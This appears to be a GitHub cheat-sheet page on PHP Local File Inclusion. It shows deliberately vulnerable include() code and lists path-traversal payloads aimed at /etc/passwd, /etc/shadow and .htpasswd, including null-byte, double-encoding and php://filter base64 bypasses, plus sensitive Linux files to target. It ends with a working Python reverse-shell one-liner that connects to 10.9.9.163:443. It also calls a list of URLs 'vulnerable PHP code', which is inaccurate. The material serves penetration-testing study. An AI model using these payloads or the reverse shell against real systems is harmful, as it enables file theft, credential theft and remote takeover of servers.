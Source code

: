 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

```bash
https://website-example.com/?page=filename.php
https://website-example.com/?page=../../../../etc/test.txt
https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd
https://example-vulnerable-website.com/?module=/etc/passwd
https://example-vulnerable-website.com/?module=contact.php
http://www.example_target_website.com/download.php?file=../../../../etc/passwd
http://www.example_target_website.com/download.php?file=document.html
https://example-vulnerable-website.com/?helpfile=login.txt
https://example-vulnerable-website.com/?module=uploads/image123.gif
https://example-vulnerable-website.com/?download=brochure.pdf
https://example-vulnerable-website.com/?download=../include/connection.php
```
#### An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

```bash
include
require
include_once 
require_once 
```
#### The following is an example of PHP code that is vulnerable to LFI. 
```bash
<?PHP 
    include($_GET["file"]);
?>
```
The PHP code above uses a `GET` request via the URL parameter `file` to include the file on the page. The request can be made by sending the following HTTP request: `http://example.thm.labs/index.php?file=hello.txt` to load the content of the `hello.txt` file that exists in the same directory.

The following are some Linux system files that have sensitive information.
```bash
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```
```
http://website.com/index.php?err=../../../../../../../../etc/passwd HTTP/1.1
```
```
http://example.thm.labs/page.php?file=/etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```

#### PHP Filter

```
lfi=php://filter/resource=/etc/passwd

lfi=php://filter/convert.base64-encode/resource=/etc/passwd
```
#### Base64 Decoding
```
echo "base64_code" | base64 -d
```
#### Python2 Reverse-shell to LFI
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.163",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
